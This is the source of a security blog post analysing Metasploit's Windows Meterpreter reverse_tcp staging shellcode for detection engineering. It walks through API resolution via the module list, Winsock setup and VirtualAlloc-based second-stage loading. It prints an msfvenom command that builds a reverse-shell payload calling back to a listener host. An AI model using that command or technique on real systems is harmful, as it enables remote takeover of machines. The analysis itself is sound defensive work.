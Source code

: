 ```yaml
---
layout: post
title:  "The Inner Workings of Meterpreter"
date:   2023-09-17 00:00:00 +0000
categories: malware
---
```


This blog entry covers personal technical research on the meterpreter staging payload. Meterpreter, developed by Metasploit, is a C2 framework used by white and black hats alike.

To begin analysis, I generated a 32-bit Windows meterpreter shellcode with the command `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c`. The objective is to understand how the shellcode loads the necessary DLLs and executes the second stage payload.

Understanding the mechanisms of such shellcodes will prove useful in detection engineering.

<br>
### 1. The "main" Function
To give a high-level overview of the shellcode - there is a `main` function at offset 0x95, and a `load-execute` function at offset 0x06. `load-execute` is called from `main` multiple times.

Parameteres are pushed onto the stack from `main` and are passed into `load-execute` to be passed into WinAPIs.

![ida_main](/assets/post_assets/inner-workings-of-meterpreter/ida_main.png)


<br>
### 2. The "load-execute" Function
In ideal shellcode conditions, `load-execute` will be called 7 times that resolves and executes the following WinAPIs in order.

+ kernel32.LoadLibraryA
+ ws_32.WSAStartup
+ ws_32.WSASocketA
+ ws_32.connect
+ ws_32.recv
+ kernel32.VirtualAlloc
+ ws_32.recv (receives second stage payload)

<br>
I'll describe the library loading process in pseuodocode.

{% highlight python %}
for module in moduleList:
    for export in module.exports:
        if signature.matches(export):
            export()
{% endhighlight %}

<br>
The shellcode obtains the `InMemoryOrderModuleList` structure, which it iterates to find the required WinAPI through the `ExportDirectory` structure. This allows the extraction of WinAPI addresses without calling GetProcAddress.

![ida_load2](/assets/post_assets/inner-workings-of-meterpreter/ida_load2.png)

<br>
In the first `load-execute` call, the shellcode finds the address of `LoadLibraryA` and calls `LoadLibraryA("ws2_32")`, the Winsock dll, to enable networking capabilities. 

![loadlibrary_x32](/assets/post_assets/inner-workings-of-meterpreter/loadlibrary_x32.png)


<br>
### 3. Second Stage Payload
Memory space for the second stage payload is allocated with `VirtualAlloc`. The memory space is then populated with the payload received in the second `ws32.recv` call.

![ida_virtualalloc](/assets/post_assets/inner-workings-of-meterpreter/ida_virtualalloc.png)